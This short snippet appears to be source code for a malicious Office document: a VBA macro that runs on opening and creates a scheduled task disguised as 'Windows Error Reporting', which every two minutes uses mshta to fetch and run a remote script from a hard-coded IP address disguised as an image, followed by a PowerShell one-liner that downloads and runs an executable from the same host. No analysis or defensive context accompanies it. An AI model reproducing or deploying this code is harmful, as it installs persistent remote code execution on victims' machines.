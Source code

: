 Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Call Shell("schtasks /create /sc MINUTE /tn ""Windows Error Reporting"" /tr ""mshta.exe javascript:a=GetObject('script:http://192.168.66.59/microsoftftp.jpg').Exec();close();"" /mo 2 /F")
End Sub


powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.66.59/updates.exe',
'C:\Users\Public\updates.exe');& 'C:\Users\Public\updates.exe'
